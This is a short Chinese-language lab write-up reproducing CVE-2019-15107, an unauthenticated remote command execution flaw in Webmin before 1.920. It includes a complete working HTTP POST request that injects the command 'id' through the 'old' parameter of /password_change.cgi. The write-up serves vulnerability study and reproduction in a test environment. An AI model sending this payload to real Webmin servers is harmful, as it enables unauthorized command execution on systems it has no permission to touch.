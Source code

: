 

# Webmin未经身份验证的远程代码执行（CVE-2019-15107）

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->改包--->远程代码执行

### 0x01漏洞介绍

​			参考链接的有效负载不完整。深入阅读代码后，我发现只有在1.920之前不存在主体的用户参数时，才能执行命令，而在1.920处没有限制。

​			影响版本

  		Webmin < 1.920

### 0x02漏洞复现

​	参考链接的有效负载不完整。深入阅读代码后，我发现只有在1.920之前不存在主体的用户参数时，才能执行命令，而在1.920处没有限制。

简而言之，发送以下POST请求以执行命令`id`：

```
POST /password_change.cgi HTTP/1.1
Host: your-ip:10000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Cookie: redirect=1; testing=1; sid=x; sessiontest=1
Referer: https://your-ip:10000/session_login.cgi
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

user=rootxx&pam=&expired=2&old=test|id&new1=test2&new2=test2
```

​		![Webmin未经身份验证的远程代码执行_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Webmin未经身份验证的远程代码执行_1.jpg)

![Webmin未经身份验证的远程代码执行_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Webmin未经身份验证的远程代码执行_1.jpg)



